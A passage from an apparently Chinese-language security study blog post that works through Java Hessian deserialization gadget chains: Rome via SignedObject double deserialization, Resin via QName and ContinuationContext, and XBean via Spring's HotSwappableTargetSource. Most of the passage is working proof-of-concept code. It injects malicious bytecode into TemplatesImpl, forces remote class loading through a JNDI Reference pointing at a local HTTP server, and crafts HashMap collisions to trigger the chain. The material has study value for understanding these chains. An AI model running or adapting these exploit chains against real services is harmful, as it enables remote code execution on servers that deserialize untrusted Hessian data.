    注意这里的可选要求 3，原来链中的 `_tfactory` 默认是不为 `null` 的，但是现在来看这个参数：
    
    这个参数被 `transient` 修饰，上述说到，[Hessian 不会写入和恢复被 `transient` 修饰的变量，这就意味着其在反序列化时必定为 `null`](#3.4 一些细节)，从而导致链中断。

2. 因此还需要另寻他法，找到一个 getter 具有反射调用函数的功能。但是其中一个常见的方式是使用 `java.security.SignedObject` 进行二次反序列化，这个思路也是另辟蹊径，先来看一下他的 `getObject()`：
    
    可以看出，其会再次获取一遍输入流，然后对其反序列化。那么怎么样写入序列化数据呢？来看其构造函数：
    
    到此，就连起来了。构造链的时候写入其他链的 sink，然后这里就会序列化到类中的 `content`，然后在 `getObject()` 中反序列化出来。

3. 最后一个问题就是 `SignedObject` 构造函数中的后两个参数，怎么传？`Signature` 应该是密码学中的签名，那么这里就贴一下廖学峰的签名算法了：

    > https://liaoxuefeng.com/books/java/security/sign/：
    > ```java
    > import java.nio.charset.StandardCharsets;
    > import java.security.*;
    > import java.util.HexFormat;
    > 
    > public class Main {
    >     public static void main(String[] args) throws GeneralSecurityException {
    >         // 生成RSA公钥/私钥:
    >         KeyPairGenerator kpGen = KeyPairGenerator.getInstance("RSA");
    >         kpGen.initialize(1024);
    >         KeyPair kp = kpGen.generateKeyPair();
    >         PrivateKey sk = kp.getPrivate();
    >         PublicKey pk = kp.getPublic();
    > 
    >         // 待签名的消息:
    >         byte[] message = "Hello, I am Bob!".getBytes(StandardCharsets.UTF_8);
    > 
    >         // 用私钥签名:
    >         Signature s = Signature.getInstance("SHA1withRSA");
    >         s.initSign(sk);
    >         s.update(message);
    >         byte[] signed = s.sign();
    >         System.out.println("signature: " + HexFormat.of().formatHex(signed));
    > 
    >         // 用公钥验证:
    >         Signature v = Signature.getInstance("SHA1withRSA");
    >         v.initVerify(pk);
    >         v.update(message);
    >         boolean valid = v.verify(signed);
    >         System.out.println("valid? " + valid);
    >     }
    > }
    > ```

4. 那么到这里，PoC 也就可以出来了：
    ```java
    @Test
    public void testRome_doubleSer() throws Exception{
        // 1. 照葫芦画瓢
        KeyPairGenerator kpGen = KeyPairGenerator.getInstance("RSA");
        kpGen.initialize(1024);
        KeyPair kp = kpGen.generateKeyPair();
        PrivateKey sk = kp.getPrivate();
        Signature s = Signature.getInstance("SHA1withRSA");
        // 构造 sink
        SignedObject signedObject = new SignedObject((Serializable) getRomeObj(), sk, s);
    
        // 2. 构造 chain，先让链断开
        ObjectBean objectBean = new ObjectBean(String.class, "EndlessShw");
        // 注意这里是 JdbcRowSetImpl.class，JdbcRowSet 接口中没有定义：
        /**{@link com.sun.rowset.JdbcRowSetImpl#getDatabaseMetaData()}**/
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(SignedObject.class, signedObject));
    
        // 3. 构造 kick-off HashMap
        HashMap<Object, String> objectBeanStringHashMap = new HashMap<>();
        objectBeanStringHashMap.put(objectBean, "EndlessShw");
    
        // 4. 动态修改 ObjectBean 中的 EqualsBean
        Field equalsBeanField = objectBean.getClass().getDeclaredField("equalsBean");
        equalsBeanField.setAccessible(true);
        equalsBeanField.set(objectBean, equalsBean);
    
        String serialize = serialize(objectBeanStringHashMap);
        unSerialize(serialize);
    }
    // 直接返回 Rome 的 kick-off
    private Object getRomeObj() throws Exception{
        // 1. 读取恶意类 bytes[] 并 sink 构造
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.getCtClass("com.endlessshw.serialization.util.Evil");
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 2. 构造 chain，先让链断开
        ObjectBean objectBean = new ObjectBean(String.class, "EndlessShw");
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, new ToStringBean(Templates.class, templates));
    
        // 3. 构造 kick-off HashMap
        HashMap<Object, String> objectBeanStringHashMap = new HashMap<>();
        objectBeanStringHashMap.put(objectBean, "EndlessShw");
    
        // 4. 动态修改 ObjectBean 中的 EqualsBean
        Field equalsBeanField = objectBean.getClass().getDeclaredField("equalsBean");
        equalsBeanField.setAccessible(true);
        equalsBeanField.set(objectBean, equalsBean);
    
        return objectBeanStringHashMap;
    }
    ```

### 5.3 Resin 

1. Resin 是一个轻量级的 Web 服务器，功能和 Tomcat 类似，但是比 Tomcat 还要轻量。其和 Hessian 都是同一家公司开发的。先考虑引入依赖：
    ```xml
    <!-- 这里版本和 Hessian 保持一致吧 -->
    <dependency>
        <groupId>com.caucho</groupId>
        <artifactId>resin</artifactId>
        <version>4.0.66</version>
    </dependency>
    ```

2. 这里 kick-off 使用 `HashMap.equals()`。[漏洞原理](#4. 漏洞原理)中提到，Hessian 的反序列化会使用 `HashMap.put()`，最终 `HashMap.put()` 会触发 `HashMap.equals()`：
    
    然而，想要调用到红框中的 `equals()` 并不简单。
    首先这里涉及到 `HashMap` 的底层原理。`HashMap` 底层应该是链表结构，其节点是其内部类：`HashMap$Node`：
    
    先来看触发 `equals()` 的逻辑：想要触发 `equals()`，本质上就是要 `p.hash == hash`。首先 `hash` 就是传入的元素的 Hash。然后 `p` 是 `tab` 中的一个元素，`tab` 就是 `table`，也就是 `HashMap` 中的链表。
    再看 `key.equals(k)`。`k` 的来源是 `p.key`，也就是 `tab` 中的一个元素的 `key`。而 `putVal.key` 是所传入键值对的 `key`。
    到此总结一下，我们需要控制的元素有：`table`，`putVal.hash`，`putVal.key`。这里留个印象，具体怎么控制在 PoC 中说明。

3. 这里给出一个类：`com.sun.org.apache.xpath.internal.objects.XString`，其 `equals` 方法内部可以触发 `toString` 方法。
    
    那么触发谁的 `toString()` 呢？既然是 Resin 链，那就从 Resin 里面寻找了。这里给出的是 `com.caucho.naming.QName`。`QName` 是啥呢：

    > Represents a parsed JNDI name.
    > 可以看到它和 JNDI 多少有点关系。

    来看一下它的 `toString()`：
    
    `_context` 是它的成员变量，其定义：
    
    QName 实际上是 Resin 对上下文 Context 的一种封装，它的 toString 方法会调用其封装类的 `composeName` 方法获取复合上下文的名称。
    接下来问题又来了，用哪个 `Context` 实现类？

4. 这里给出类 `javax.naming.spi.ContinuationContext`，来看它的 `composeName()`：
    
    然后跟进 `getTargetContext()`：
    
    这里需要注意这个变量 `cpe`，他是 `CannotProceedException`，序列化的时候需要实例化一个，不然上面的 `if` 会抛错。再跟进：
    
    `getObjectInstance()` 名字听着就像实例化类，有问题，再跟进：
    
    再跟进：
    

    这里的 `helper` 是如下定义：
    
    到目前为止，可以看到它实现了类加载并实例化，接着看看 `VersionHelper` 的 `loadClass()`，探究它是怎么实现类加载的：
    
    可以看到使用了 `URLClassLoader`，那这就说明它是可以远程类加载的，这就是入侵点。

5. 链有点长，总结一下构造链时的一些注意点：

    1. `NamingManager` 的 `helper.loadClass()` 的参数需要指定。本质就是要指定其 `Reference`。
    2. 指定 `QName` 中的 `_context` 实现类为：`ContinuationContext`。
    3. `ContinuationContext#getTargetContext()` 中要指定成员 `cpe` 为 `CannotProceedException`。

6. 现在开始构造 PoC，不过在此之前，还需要把 `HashMap#equals()` 的逻辑尝试梳理一下。
    再次回到 `p.hash == hash && ((k = p.key) == key || (key != null && key.equals(k)))` 上来。先缕清后面，`key.equals(k)`，所以这里的 `key 为 XString` 且 `k 为 QName`。
    然后再往前盘，`hash` 就是传入元素的 Hash，也就是 `XString` 和 `Hash`，`p` 是 `Node` 的 Hash，同时 `k` 就是 `Node` 的 `key`。来看一下 `Node` 的组成部分和其 Hash 的获取：
     
    
    也就是说，序列化时想要不触发链条，我只要保证 `Node` 的 `hash` 不和 `XString` 的 hash 相同就行。
    但是考虑反序列化过程，`HashMap` 的元素最终都是一个一个 `put` 进去的，但是 `put` 时会调用 `HashMap#hash()`：
    
    也就是说，`XString.hashCode() == QName.hashCode()`。
    总结一下要点：

    1. 通过反射修改 `HashMap()` 的 `table`，用 `HashMap#Node` 将 `XString` 和 `QName` 包裹并塞入，这样保证序列化时不会触发链。
    2. 同时保证 `XString.hashCode() == QName.hashCode()`，`XString.hash` 最终来源于其修饰字符串的 Hash，详见其 `XString.hashCode()`。

7. PoC 如下：

    ```java
    @Test
    public void testResin_Qname() throws Exception {
        // 1. 从底向上写 PoC，先完成 ContinuationContext 的实例化，它为 protected 类型，没法 new 出来
        Class<?> continuationContextClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> continuationContextDeclaredConstructor = continuationContextClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        continuationContextDeclaredConstructor.setAccessible(true);
        // VersionHelper.loadClass() 中所需要的 Reference 最终来自 cpe.getResolvedObj()
        CannotProceedException cpe = new CannotProceedException();
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:8888/");
        cpe.setResolvedObj(reference);
        Object continuationContext = continuationContextDeclaredConstructor.newInstance(cpe, new Hashtable<>());
    
        // 2. 实例化 QName，修改其 _context 为 ContinuationContext
        QName qName = new QName((Context) continuationContext, "EndlessShw", "EndlessShw");
    
        // 3. 创建 HashMap，需要其 equals()
        Class<?> nodeClass = Class.forName("java.util.HashMap$Node");
        // HashMap 中的 Node 应该就是数据结构链表中的节点
        Constructor<?> nodeDeclaredConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeDeclaredConstructor.setAccessible(true);
        // 第一个参数是 Node 的 hash，保证不和 XString.hashCode 相同就行。最后一个填 null 就行
        Object nodeQName = nodeDeclaredConstructor.newInstance(0, qName, "EndlessShw", null);
        // 这里保证反序列化时 Hash 相同
        XString xString = new XString(unhash(qName.hashCode()));
        Object nodeXString = nodeDeclaredConstructor.newInstance(1, xString, "EndlessShw", null);
        // 创建 Node[] table，但是 Node 是 protected，因此需要反射
        Object nodeArray = Array.newInstance(nodeClass, 2);
        Array.set(nodeArray, 0, nodeQName);
        Array.set(nodeArray, 1, nodeXString);
    
        // 4. 通过反射将元素插入 HashMap，这样可以保证序列化时不会触发
        HashMap<Object, Object> map = new HashMap<>();
        Field tableField = map.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(map, nodeArray);
        Field sizeField = map.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(map, 2);
    
        byte[] bytes = hessianSerialize(map);
        hessianUnSerToObj(bytes);
    }
    
    /**
         * Hessian 序列化
         *
         * @param object 待序列化的对象
         * @return 返回序列化的结果 byte[]
         */
    public static byte[] hessianSerialize(Object object) {
        Hessian2Output hessian2Output = null;
        byte[] result = null;
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        hessian2Output = new Hessian2Output(byteArrayOutputStream);
        // 这里需要注意
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        try {
            hessian2Output.writeObject(object);
            hessian2Output.flush();
            result = byteArrayOutputStream.toByteArray();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return result;
    }
    
    /**
         * Hessian 反序列化
         *
         * @param bytes 传入的序列化 byte[]
         * @return 返回反序列化后的对象
         */
    public static Object hessianUnSerToObj(byte[] bytes) {
        Object result = null;
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        try {
            result = hessian2Input.readObject();
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return result;
    }
    // todo 具体实现逻辑还是不同，真底层啊。网上找的，直接拿了过来。
    // todo 自己尝试一下令 Hash 相同，但是弹不出计算器。可能 Hash 值的数值有要求，具体没细看了，这里的两个工具类是 marshalsec 的工具类
    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            // String with hash of Integer.MIN_VALUE, 0x80000000
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");
    
            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            // Find target without sign bit set
            target = target & Integer.MAX_VALUE;
        }
    
        unhash0(answer, target);
        return answer.toString();
    }
    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;
    
        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }
    ```

8. 这里有个很重要的一点，就是 Hessian 有个方法是 `Hessian2Output#getSerializerFactory().setAllowNonSerializable(true)`。这个方法可以让不能序列化的类参与序列化，而且这个类竟然在**序列化的时候**指定，所以危害还是很大的。（算是明白为什么 su18 师傅说有时 `writeObject()` 可能更重要了。

9. 总结：
    ```java
    /*
    	HashMap.put->putVal->equals()
    		XString.equals()
    			QName.toString()
    				ContinuationContext.composeName()
    					ContinuationContext.getTargetContext()
    						NamingManager.getObjectInstance()
    							NamingManager.getObjectFactoryFromReference()
    								VersionHelper.loadClass() and newInstance()
    								
    */
    ```

### 5.4 XBean 链（需要 Spring）

1. 从来没有听过 XBean，这里补充一下 XBean 的相关知识：

    > 参考链接（文章其实挺老的，2008 年的，吓人）：
    > https://www.iteye.com/blog/berdy-815309
    > https://www.iteye.com/blog/whitesock-457601
    > XBean 是 Apache Geronimo 的子项目，设计这个的目的是为了能为 Geronimo 的插件提供一种方便快捷的配置方式。后来，XBean 被更多的开源项目引用。例如：jetty、Activemq 等等，同时 XBean 也提供了对 Spring 的支持。

    简单来讲，就是方便配置 JavaBean 的。
    然后这条链引入的依赖：

    ```xml
    <!-- https://mvnrepository.com/artifact/org.apache.xbean/xbean-naming -->
    <dependency>
        <groupId>org.apache.xbean</groupId>
        <artifactId>xbean-naming</artifactId>
        <version>4.25</version>
    </dependency>
    ```

    真难找，最终在 marshalsec 中找到具体是哪个依赖。
2. XBean 还是用 `HashMap.equals()` 来触发。具体逻辑和 Resin 也差不多，就是实现类似功能的类不同。
3. kick-off 还是没有变，依旧从 `HashMap.equals()` 和 `XString.equals()` 开始，但是现在给出一个新的类：`ContextUtil$ReadOnlyBinding`，来看他的 `toString()` 方法：
    `public static final class ReadOnlyBinding extends Binding`。
    
    跟进 `ContextUtil$ReadOnlyBinding#getObject()`：
    
    再跟进 `ContextUtil#resolve()`：
    
    后面就和 Resin 链相同了。
4. 将 Resin 的思路延续下来，尝试构造如下：
    ```java
    @Test
    public void testXBean_HashCrash() throws Exception {
        // 1. 从底向上写 PoC，先完成 ContextUtil$ReadOnlyBinding 的实例化
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:8888/");
        Context ctx = createWithoutConstructor(WritableContext.class);
        ContextUtil.ReadOnlyBinding readOnlyBinding = new ContextUtil.ReadOnlyBinding("EndlessShw", reference, ctx);
    
        // 3. 创建 HashMap，需要其 equals()
        Class<?> nodeClass = Class.forName("java.util.HashMap$Node");
        // HashMap 中的 Node 应该就是数据结构链表中的节点
        Constructor<?> nodeDeclaredConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeDeclaredConstructor.setAccessible(true);
        // 第一个参数是 Node 的 hash，保证不和 XString.hashCode 相同就行。最后一个填 null 就行
        Object nodeReadOnlyBinding = nodeDeclaredConstructor.newInstance(0, readOnlyBinding, "EndlessShw", null);
        // 这里保证反序列化时 Hash 相同
        XString xString = new XString(unhash(readOnlyBinding.hashCode()));
        Object nodeXString = nodeDeclaredConstructor.newInstance(1, xString, "EndlessShw", null);
        // 创建 Node[] table，但是 Node 是 protected，因此需要反射
        Object nodeArray = Array.newInstance(nodeClass, 2);
        Array.set(nodeArray, 0, nodeReadOnlyBinding);
        Array.set(nodeArray, 1, nodeXString);
    
        // 4. 通过反射将元素插入 HashMap，这样可以保证序列化时不会触发
        HashMap<Object, Object> map = new HashMap<>();
        Field tableField = map.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(map, nodeArray);
        Field sizeField = map.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(map, 2);
    
        byte[] bytes = hessianSerialize(map);
        hessianUnSerToObj(bytes);
    }
    ```

    但是并没有弹出计算器。说明 Hash 碰撞还是有问题（TODO：想不出来为什么，也没找到相关文章，倒不如说 XBean 的文章都挺少，以后再研究这个所谓的 Hash 碰撞问题），那么这里就引入新的类：`org.springframework.aop.target.HotSwappableTargetSource`。
    主要参考这篇文章：

    > https://changeyourway.github.io/2024/06/07/Java%20%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E7%AF%87-Rome%E9%93%BE%E4%B9%8BHotSwappableTargetSource%E9%93%BE/

    直接来看 `HotSwappableTargetSource#hashCode()`：
    
    发现返回的 Hash 值是固定的。
    再来看 `HotSwappableTargetSource#equals()`：
    
    这个 `equals` 主要比较两个 `HotSwappableTargetSource` 的 `target` 是否相同。不过如果外面的 `target` 是 `XString`，里面的 `target` 是 `ReadOnlyBinding` 就行。

5. 引入 `HotSwappableTargetSource` 的构造如下：
    ```java
    @Test
    public void testXBean() throws Exception{
        // 1. 从底向上写 PoC，先完成 ContextUtil$ReadOnlyBinding 的实例化
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:8888/");
        Context ctx = createWithoutConstructor(WritableContext.class);
        ContextUtil.ReadOnlyBinding readOnlyBinding = new ContextUtil.ReadOnlyBinding("foo", reference, ctx);
        XString xString = new XString("EndlessShw");
        // 2. 创建两个 HotSwappableTargetSource 以包裹 XString 和 readOnlyBinding
        HotSwappableTargetSource hstsXString = new HotSwappableTargetSource(xString);
        HotSwappableTargetSource hstsReadOnlyBinding = new HotSwappableTargetSource(readOnlyBinding);
    
        // 3. 创建 HashMap，需要其 equals()
        Class<?> nodeClass = Class.forName("java.util.HashMap$Node");
        // HashMap 中的 Node 应该就是数据结构链表中的节点
        Constructor<?> nodeDeclaredConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeDeclaredConstructor.setAccessible(true);
        // 第一个参数是 Node 的 hash，保证不和 XString.hashCode 相同就行。最后一个填 null 就行
        Object nodeReadOnlyBinding = nodeDeclaredConstructor.newInstance(0, hstsReadOnlyBinding, "EndlessShw", null);
        Object nodeXString = nodeDeclaredConstructor.newInstance(1, hstsXString, "EndlessShw", null);
        // 创建 Node[] table，但是 Node 是 protected，因此需要反射
        Object nodeArray = Array.newInstance(nodeClass, 2);
        Array.set(nodeArray, 0, nodeReadOnlyBinding);
        Array.set(nodeArray, 1, nodeXString);
    
        // 4. 通过反射将元素插入 HashMap，这样可以保证序列化时不会触发
        HashMap<Object, Object> map = new HashMap<>();
        Field tableField = map.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(map, nodeArray);
        Field sizeField = map.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(map, 2);
    
        byte[] bytes = hessianSerialize(map);
        hessianUnSerToObj(bytes);
    }
    ```

    当然，上述的 Resin 链也可以这么搞：
    ```java
    @Test
    public void testResin_Spring() throws Exception{
        // 1. 从底向上写 PoC，先完成 ContinuationContext 的实例化，它为 protected 类型，没法 new 出来
        Class<?> continuationContextClass = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> continuationContextDeclaredConstructor = continuationContextClass.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        continuationContextDeclaredConstructor.setAccessible(true);
        Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:8888/");
        // VersionHelper.loadClass() 中所需要的 Reference 最终来自 cpe.getResolvedObj()
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(reference);
        Object continuationContext = continuationContextDeclaredConstructor.newInstance(cpe, new Hashtable<>());
    
        // 2. 实例化 QName，修改其 _context 为 ContinuationContext
        QName qName = new QName((Context) continuationContext, "EndlessShw", "EndlessShw");
        XString xString = new XString("EndlessShw");
        // 创建两个 HotSwappableTargetSource 以包裹 XString 和 QName
        HotSwappableTargetSource hstsXString = new HotSwappableTargetSource(xString);
        HotSwappableTargetSource hstsQName = new HotSwappableTargetSource(qName);
    
        // 3. 创建 HashMap，需要其 equals()
        Class<?> nodeClass = Class.forName("java.util.HashMap$Node");
        // HashMap 中的 Node 应该就是数据结构链表中的节点
        Constructor<?> nodeDeclaredConstructor = nodeClass.getDeclaredConstructor(int.class, Object.class, Object.class, nodeClass);
        nodeDeclaredConstructor.setAccessible(true);
        // 第一个参数是 Node 的 hash，保证不和 XString.hashCode 相同就行。最后一个填 null 就行
        Object nodeReadOnlyBinding = nodeDeclaredConstructor.newInstance(0, hstsQName, "EndlessShw", null);
        Object nodeXString = nodeDeclaredConstructor.newInstance(1, hstsXString, "EndlessShw", null);
        // 创建 Node[] table，但是 Node 是 protected，因此需要反射
        Object nodeArray = Array.newInstance(nodeClass, 2);
        Array.set(nodeArray, 0, nodeReadOnlyBinding);
        Array.set(nodeArray, 1, nodeXString);
    
        // 4. 通过反射将元素插入 HashMap，这样可以保证序列化时不会触发
        HashMap<Object, Object> map = new HashMap<>();
        Field tableField = map.getClass().getDeclaredField("table");
        tableField.setAccessible(true);
        tableField.set(map, nodeArray);
        Field sizeField = map.getClass().getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(map, 2);
    
        byte[] bytes = hessianSerialize(map);
        hessianUnSerToObj(bytes);
    }
    ```

